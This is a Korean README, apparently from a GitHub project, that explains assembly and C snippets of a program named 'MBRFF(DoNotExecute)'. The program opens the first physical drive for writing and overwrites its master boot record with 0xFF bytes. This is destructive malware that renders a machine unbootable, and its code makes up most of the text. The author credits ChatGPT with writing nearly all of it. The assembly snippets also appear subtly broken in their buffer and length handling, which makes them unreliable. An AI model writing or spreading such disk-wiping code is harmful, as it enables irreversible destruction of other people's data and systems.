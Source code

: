 # MBRFF(DoNotExecute).asm
이 프로그램은 MBRFF(DoNotExecute).py를 기반으로 어셈블리어로 제작성한 파일입니다. 작동방법은 MBRFF(DoNotExecute).py와 같습니다.

~~어셈블리어를 공부하기위해 만들었긴 했지만 chatgpt 지분 99%..~~
```asm
disk_path db '\\.\PhysicalDrive0', 0
```
disk_path는 문자열로 물리적 디스크에 대한 경로(\\\\.\\PhysicalDrive0)를 지정합니다. 이 경로는 시스템의 첫 번째 물리적 드라이브에 접근하도록 지정합니다.


```asm
push 0
push 0
push 3
push 0
push 0x40000000
push disk_path
call [CreateFileA]

```
위 스니펫은 Windows API의 CreateFileA를 호출하여 디스크에 접근합니다. 
접근 모드는 GENERIC_WRITE로 설정되어, 디스크에 데이터를 쓸 권한을 요청합니다.

```asm
mov ecx, 512
xor edi, edi

.fill_buffer:
    mov byte [edi], 0xFF
    inc edi
    loop .fill_buffer
```

512바이트의 버퍼를 준비하고, 각 바이트들을 0xFF로 지정합니다. 이 버퍼는 WriteFile을 사용하여 MBR이 이 버퍼로 덮어쓰기됩니다.


```asm
push 0
push ecx
push edi
push eax
call [WriteFile]
```
위 fill_buffer에 있는 데이터로 디스크 첫번째 섹터(MBR)에 덮어씁니다.


# MBRFF(DoNotExecute).c
이 프로그램은 MBRFF(DoNotExecute).py를 기반으로 c언어로 제작성한 파일입니다. 작동방법은 MBRFF(DoNotExecute).py와 같습니다.


```c
HANDLE hDisk = CreateFile("\\\\.\\PhysicalDrive0", GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
```
CreateFile함수를 사용하여 \\.\PhysicalDrive0 드라이블를 Generic_write모드로 엽니다.


```c
BYTE buffer[512];
memset(buffer, 0xFF, sizeof(buffer));
BOOL result = WriteFile(hDisk, buffer, sizeof(buffer), &bytesWritten, NULL);
```

버퍼를 512바이트로 생성후 0xFF로 초기화하고, WriteFile을 사용하여 디스크 MBR위치에 덮어씁니다.
